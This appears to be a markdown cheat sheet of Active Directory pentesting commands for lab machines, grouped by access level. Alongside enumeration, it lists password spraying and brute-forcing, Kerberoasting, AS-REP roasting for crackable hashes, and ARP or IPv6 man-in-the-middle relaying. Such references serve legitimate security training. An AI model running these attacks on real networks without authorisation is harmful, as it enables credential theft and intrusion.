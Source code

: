 
## No Credentials:

- **Nmap** :
```shell
nmap -Pn -sC -sV $t 
nmap -Pn -sC -sV -p- $t #full
```

```shell
sudo nmap -sU -sC -sV $t
```

- **SMB  :** 
```shell
nmap -Pn --script "smb-vuln*" -p139,445 $t #search smb vuln
```

```shell
netexec smb 10.10.65.99 -u "Guest" -p "" --shares

netexec smb 10.10.65.99 -u user.txt -p user.txt --no-bruteforce --continue-on-success

nxc smb $t -u UserNAme -p 'PASSWORDHERE' --rid-brute

proxychains -q nxc smb 10.10.231.69 -u SVC_WEB_STAGING -d REFLECTION -p "" --rid-brute | grep '\\' | cut -d $'\\' -f2 | cut -d ' ' -f1 | tee -a users_rid.txt

```

- Same:
```sh
lookupsid.py sendai.vl/Guest@$t
```

- **LDAP Search:**
```sh
 
nmap -n -sV --script "ldap* and not brute" <IP> #Using anonymous credentials
```

```sh
ldapsearch -x -b "dc=baby2,dc=vl" -H ldap://10.10.119.153 '(ObjectClass=User)' sAMAccountName | grep sAMAccountName | awk '{print $2}'
```

```sh
ldapsearch -x -b "dc=baby2,dc=vl" -H ldap://10.10.119.153 | grep -i -a 'Service Accounts'
```

- **RPCClient :**

```sh
rpcclient -U=" " -N <dc-ip>
```

- **Kerbrute :**
```sh
kerbrute userenum --dc 10.10.11.129 -d search.htb /usr/share/wordlists/seclists/

kerbrute bruteuser --domain baby2.vl --dc $t /usr/share/wordlists/seclists/Passwords/probable-v2-top12000.txt gpoadm -v

#Bruteforce
```

- **Enum4Linux :**
```sh
enum4linux-ng -A iP
```

**Windapsearch :**
```sh
windapsearch -d <Domain Name> --dc-ip <Domain Controller IP> -U | tee windapsearch-enumeration-users
```

## With Credentials:

- **SMB  :**
```sh
smbclient //10.10.196.22/SYSVOL -U library
smbclient \\\\$t\\SYSVOL -U baby2/library
smbclient.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```

```sh
netexec smb $t2 -u 'rsmith' -p 'IHateEric2' --shares
netexec smb $t -u users.txt -p "" --no-bruteforce --continue-on-success
#Null credential can reveal interesting path
```

```sh
samrdump.py <domain>/<username>:<password>@<target_IP>
```

```sh
smbmap -H IP -d <domainname> -u <username> -p <password>
```

- On windows :
```sh
net view \\dc01 /all
```

- **LDAP Search:**

```sh
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
```

```sh
ldapsearch -H ldap://search.htb -x -D 'username@search.htb' -w "passwords" -b "DC=search,DC=htb" "objectclass=user" sAMAccountName | grep sAMAccountName | awk -F":" '{print $2}'
```

```sh
nxc ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD -M maq
nxc ldap $t -k -u users.txt -p 'Cicada123' --kdcHost DC-JPQ225.cicada.vl
```

- **Bloodhound :**
```sh
bloodhound-python -d 'LAB.TRUSTED.VL' -u 'rsmith' -p 'IHateEric2' -ns 10.10.245.166 -dc labdc.LAB.TRUSTED.VL -c all
nxc ldap 10.10.202.37 -u Rhys.Garner -p knh1gJ8Xmeq+uP --bloodhound --collection All -ns 10.10.202.37
```
OR
```sh
./SharpHound.exe --CollectionMethods All
Invoke-BloodHound -CollectionMethod All
```

- **RPCClient :**
```sh
rpcclient -U="username" <dc-ip>
```

**Enum4Linux :**
```sh
enum4linux -u username -p password -A <IP>
enum4linux -u username -p password -U <IP>
```

**GetADUsers.py :**
```sh
GetADUsers.py -all pentesting.local/ippsec:Password12345 -dc-ip 192.168.10.50
```

**Kerberoasting:**

```sh
GetUserSPNs.py breach.vl/Julia.wong:Computer1 -dc-ip $t
GetUserSPNs.py breach.vl/Julia.wong:Computer1 -dc-ip $t -request
```

```sh
findDelegation.py -dc-ip 192.168.1.50 pentesting.local/ippsec:Password12345
```

**Windapsearch :**
```sh
windapsearch -d <Domain Name> --dc-ip <Domain Controller IP> -u "domain\\username" -p "password" -U | tee winapsearch-authenticated-enumerations
```

```sh
windapsearch -d <Domain Name> --dc-ip <Domain Controller IP> -u "domain\\username" -p "password" -G | tee winapsearch-authentication-group-enumerations
```

```sh 
windapsearch -d <Domain Name> --dc-ip <Domain Controller IP> -u "domain\\username" -p "password" --unconstrained-computers | tee unconstrained-computers-enumeration
```

**Ldapdomaindump:**
```sh
ldapdomaindump --user "delegate.vl"\\"N.Thompson" --password "KALEB_2341" --outdir ldapdomaindump "DC1.delegate.vl"
```

## Only Username
- Impacket :
```sh
GetNPUsers.py bruno.vl/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
```

```sh
# Actively acting as a proxy between the clients and the DC, forcing RC4 downgrade if supported
ASRepCatcher relay -dc $DC_IP

# Disabling ARP spoofing, the mitm position must be obtained differently
ASRepCatcher relay -dc $DC_IP --disable-spoofing

# Passive listening of AS-REP packets, no packet alteration
ASRepCatcher listen
```

- Netexec : 
```sh
netexec smb $t -u users.txt -p "" --no-bruteforce --continue-on-success
```

- Discover windows : 
```sh
RunFinger.py -i 10.10.120.0/24
```

- Discover machine
```sh
mitm6 --interface "eth0"
```

- Read Users descriptions :
```sh
nxc smb 192.168.250.170 -u 'joker' -p '<3batman0893' --users
```